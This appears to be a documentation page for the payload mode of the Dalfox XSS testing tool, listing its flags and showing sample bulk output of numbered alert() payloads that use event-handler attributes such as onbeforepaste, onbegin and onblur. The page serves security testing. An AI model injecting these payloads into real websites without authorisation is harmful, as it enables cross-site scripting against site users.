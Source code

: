 ```yaml
---
title: Payload Mode
redirect_from: /docs/modes/payload-mode/
has_children: false
parent: Usage
nav_order: 5
toc: true
layout: page
---
```


`payload` mode is a mode for easy testing of XSS. Generate and Enumerate XSS Payloads and wordlists

```bash
dalfox payload {flags}
```

e.g
```bash
dalfox payload --enum-injs --entity-event-handler"
```

## Make-Bulk
Make-bulk generates many xss payloads. At this point, the parameters of the alert are configured as sequence and it is easy to find which payload was triggered during the XSS test.

```bash
dalfox payload --make-bulk
```

output

```html
...snip...
<track onbeforepaste=\"alert(488)\" contenteditable>test<\/track>
<tt onbeforepaste=\"alert(489)\" contenteditable>test<\/tt>
<u onbeforepaste=\"alert(490)\" contenteditable>test<\/u>
<ul onbeforepaste=\"alert(491)\" contenteditable>test<\/ul>
<var onbeforepaste=\"alert(492)\" contenteditable>test<\/var>
<video onbeforepaste=\"alert(493)\" contenteditable>test<\/video>
<wbr onbeforepaste=\"alert(494)\" contenteditable>test<\/wbr>
<xmp onbeforepaste=\"alert(495)\" contenteditable>test<\/xmp>
<body onbeforeprint=alert(496)>
<svg><path><animateMotion onbegin=alert(497) dur=\"1s\" repeatCount=\"1\">
<svg><animatetransform onbegin=alert(498) attributeName=transform>
<svg><set onbegin=alert(499) attributename=x dur=1s>
<svg><animate onbegin=alert(500) attributeName=x dur=1s>
<input onblur=alert(501) id=x><input autofocus>
<textarea onblur=alert(502) id=x><\/textarea><input autofocus>
...snip...
```

## Encoder
```bash
--encoder-url            Encoding output [URL]
```

## Supported
```bash
--entity-event-handler   Enumerate a event handlers for xss
--entity-gf              Enumerate a gf-patterns xss params
--entity-special-chars   Enumerate a special chars for xss
--entity-useful-tags     Enumerate a useful tags for xss
--enum-attr              Enumerate a in-attr xss payloads
--enum-common            Enumerate a common xss payloads
--enum-html              Enumerate a in-html xss payloads
--enum-injs              Enumerate a in-js xss payloads
--make-bulk              Make bulk payloads for stored xss
--remote-payloadbox      Enumerate a payloadbox's xss payloads
--remote-portswigger     Enumerate a portswigger xss cheatsheet payloads
```

## Screenshots
![1414](https://user-images.githubusercontent.com/13212227/120361642-0b9e1000-c345-11eb-8283-9c0b7fdac8b3.jpg)
